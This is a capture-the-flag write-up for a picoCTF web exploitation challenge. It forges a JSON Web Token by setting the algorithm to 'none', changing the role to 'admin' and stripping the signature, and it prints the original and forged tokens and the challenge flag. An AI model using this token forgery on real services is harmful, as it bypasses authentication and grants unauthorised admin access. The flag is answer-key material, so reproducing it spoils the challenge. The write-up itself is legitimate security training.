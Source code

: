 # Overview 
Category: [Web Exploitation]()

AUTHOR: GEOFFREY NJOGU

# Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
VerticalScope (internet media company) - outdated version of vBulletin forum software used
Can you identify the components and exploit the vulnerable one?

# Solution
- When accessing the website with a demo account, we receive the token: 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzIyMDkzMzM4NDY2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzIyMDkzMzM4fQ.Ws43mo6X7Pp_RzBKBS8vqcRMLxapWPt2KGcAFl5z9Vw
```
- To find out what we have we can use the [JWT debugger website](https://token.dev/). By pasting in the above token value we get:

<img src="https://i.imgur.com/QfgVri7.png">

- This is now a direct walkthrough of what we need to do. First switch off security, by setting "alg" to "none", then set the role to "admin", and then omit the signature at the end but retain the trailing period.
  [Reference](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)
- Results: 
<img src="https://i.imgur.com/QKXWGUb.png">

- This yields the base64 JWT:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIyMDkzMzM4NDY2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTcyMjA5MzMzOH0
```
- The JWT should always have two (2) . separators.So, we just need to add a "." end of the sentence so it's still valid:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIyMDkzMzM4NDY2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTcyMjA5MzMzOH0.
```
- Now change tokens and refresh again, we get the flag 
<img src="https://i.imgur.com/DiJnHsN.png">

> Flag :**picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}**